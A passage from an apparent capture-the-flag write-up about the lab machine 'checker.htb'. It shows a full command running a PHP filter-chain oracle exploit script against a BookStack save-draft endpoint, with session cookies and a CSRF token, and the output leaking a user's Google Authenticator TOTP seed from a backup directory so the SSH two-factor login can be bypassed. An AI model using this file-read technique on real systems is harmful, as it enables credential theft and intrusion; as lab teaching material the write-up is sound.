 ```
Y2hlY2tl
b'checke'

```

I have to include active cookies and the `X-CSRF-TOKEN` header from a valid request.

It’s worth nothing that this is a brute force approach, and it’s rather slow. It’s also probably missing a last character “r”, though hard to say for sure at this point.

### Shell

#### Read 2FA Seed

I have a user, reader, and their password that works for SSH, but 2FA is enabled. Searching for things like “Linux SSH 2fa” returns [tutorials](https://ubuntu.com/tutorials/configure-ssh-2fa#1-overview) that show how to set up Google Authenticator. This application stores it’s 2FA seed value in `~/.google_authenticator`.

I can’t directly read `/home/reader/.google_authenticator`. That makes sense, as that file is typically not readable by anyone other than the user it belongs to (and actually will fail is the permissions are too broad). But I can try in the `/backup` directory leaks on the post, and it works:

```

oxdf@hacky$ uv run filters_chain_oracle_exploit.py --verb PUT --file /backup/home_backup/home/reader/.google_authenticator --target http://checker.htb/ajax/page/8/save-draft --parameter html --headers '{"Cookie": "XSRF-TOKEN=eyJpdiI6IjlqMWFOTUI5U0FoTUwzODJWWS9PUmc9PSIsInZhbHVlIjoiOXArTFBZRjMzY1l2dU4zcWtxZUN2dVdvS3Jka1FvdmcrZTN0a0QwSE5Ock43eWhpMlJ1WG9VdHlDcXV6cXVVYkEwQTVpSXpITXhuZ1hLa3FqNEY2VGc0M3owbUF2VWRKUTJtMTRHUXdCb1VCOElydHlYOGxWd0cwdVJLTlBuazkiLCJtYWMiOiI2ZTdmNWY3Y2Q4Mzc1NmI2MTAzYzQ4NWQwZmE0YjE3MTZlYzc1YTEyOGU0NWNjNWEzMmM0NTY0ZTk2YTkyOTk0IiwidGFnIjoiIn0%3D; bookstack_session=eyJpdiI6IldrWmZqQkk0N3A5S0dYd2NDd2lGV3c9PSIsInZhbHVlIjoiL2FSMEhXOWZMeUpkTExnUTNKYmNNck1hOG5FSFBFZGF0MmhJUFJKcXB6K0FGZFArbkZraU9LUWgvVXlINXdyRlJheWp6NEZpemdWNjVGVHpraXVwRzRkVnU4d0c4cWpKNllBMEsxYUxPLzROZkVxY1lhTEFiWmh5WHJJcmxZWE8iLCJtYWMiOiJjOTNhYzljMWRkMWQzNjVhMDVkMTM3NGU3N2FmMjI4NDE3OWRlNDcwMjVmYmQ4NTg0NDUzNjc3ZmNkNDJhYjI0IiwidGFnIjoiIn0%3D; 558fa9b1ffa04df378a1f2bb1a4cceed1e7cc9d4adbbfe21e2=157db5779ec5fdb5c1a8f3bacf00f63d4d3d22235d69f15848", "X-CSRF-TOKEN": "0ifkkNROMkGdJH6oMEH5wAth2ZQlbjAfaC9eSzax"}' 
[*] The following URL is targeted : http://checker.htb/ajax/page/8/save-draft
[*] The following local file is leaked : /backup/home_backup/home/reader/.google_authenticator
[*] Running PUT requests
[*] Additionnal headers used : {"Cookie": "XSRF-TOKEN=eyJpdiI6IjlqMWFOTUI5U0FoTUwzODJWWS9PUmc9PSIsInZhbHVlIjoiOXArTFBZRjMzY1l2dU4zcWtxZUN2dVdvS3Jka1FvdmcrZTN0a0QwSE5Ock43eWhpMlJ1WG9VdHlDcXV6cXVVYkEwQTVpSXpITXhuZ1hLa3FqNEY2VGc0M3owbUF2VWRKUTJtMTRHUXdCb1VCOElydHlYOGxWd0cwdVJLTlBuazkiLCJtYWMiOiI2ZTdmNWY3Y2Q4Mzc1NmI2MTAzYzQ4NWQwZmE0YjE3MTZlYzc1YTEyOGU0NWNjNWEzMmM0NTY0ZTk2YTkyOTk0IiwidGFnIjoiIn0%3D; bookstack_session=eyJpdiI6IldrWmZqQkk0N3A5S0dYd2NDd2lGV3c9PSIsInZhbHVlIjoiL2FSMEhXOWZMeUpkTExnUTNKYmNNck1hOG5FSFBFZGF0MmhJUFJKcXB6K0FGZFArbkZraU9LUWgvVXlINXdyRlJheWp6NEZpemdWNjVGVHpraXVwRzRkVnU4d0c4cWpKNllBMEsxYUxPLzROZkVxY1lhTEFiWmh5WHJJcmxZWE8iLCJtYWMiOiJjOTNhYzljMWRkMWQzNjVhMDVkMTM3NGU3N2FmMjI4NDE3OWRlNDcwMjVmYmQ4NTg0NDUzNjc3ZmNkNDJhYjI0IiwidGFnIjoiIn0%3D; 558fa9b1ffa04df378a1f2bb1a4cceed1e7cc9d4adbbfe21e2=157db5779ec5fdb5c1a8f3bacf00f63d4d3d22235d69f15848", "X-CSRF-TOKEN": "0ifkkNROMkGdJH6oMEH5wAth2ZQlbjAfaC9eSzax"}
[+] File /backup/home_backup/home/reader/.google_authenticator leak is finished!
RFZEQlJBT0RMQ1dGN0kyT05BNEs1TFFMVUUKIiBUT1RQX0FVVEgK
b'DVDBRAODLCWF7I2ONA4K5LQLUE\n" TOTP_AUTH\n'

```
